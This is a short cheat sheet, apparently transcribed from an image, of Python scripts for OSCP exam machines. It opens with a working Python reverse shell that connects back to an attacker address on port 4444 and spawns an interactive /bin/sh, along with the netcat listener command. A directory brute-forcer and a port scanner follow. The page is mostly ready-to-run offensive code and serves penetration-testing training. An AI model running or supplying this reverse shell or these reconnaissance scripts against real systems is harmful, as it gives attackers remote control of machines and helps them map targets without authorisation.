 ////////////////////////////////


 python scripts 

Here are some small Python scripts that can be useful for various tasks in the OSCP exam machines:

1. Simple Reverse Shell (Python)

A basic Python reverse shell to get a connection back to your machine.

On the attacker machine (set up a listener using netcat):

nc -lvnp 4444

On the target machine:

import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('YOUR_IP', 4444))  # Replace YOUR_IP with your attacker's IP
os.dup2(s.fileno(), 0)  # stdin
os.dup2(s.fileno(), 1)  # stdout
os.dup2(s.fileno(), 2)  # stderr
subprocess.call(['/bin/sh', '-i'])

This script opens a reverse shell to your listener.

2. Basic Directory Bruteforcer

If you’re performing web enumeration and want to brute-force directories.

import requests

url = 'http://TARGET_IP/'  # Replace with target IP
wordlist = '/path/to/wordlist.txt'  # Replace with your wordlist

with open(wordlist, 'r') as file:
    for line in file:
        directory = line.strip()
        full_url = url + directory
        response = requests.get(full_url)
        if response.status_code == 200:
            print(f"Found: {full_url}")

This script reads from a wordlist and checks if the directories exist on the target web server.

3. Simple Port Scanner

A quick Python script to scan ports.

import socket

target = 'TARGET_IP'  # Replace with the target IP
ports = [22, 80, 443, 445, 3306, 8080, 3389]  # Add or modify ports as needed

for port in ports:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(1)
    result = sock.connect_ex((target, port))
    if result == 0:
        print(f"Port {port} is open")
    sock.close()
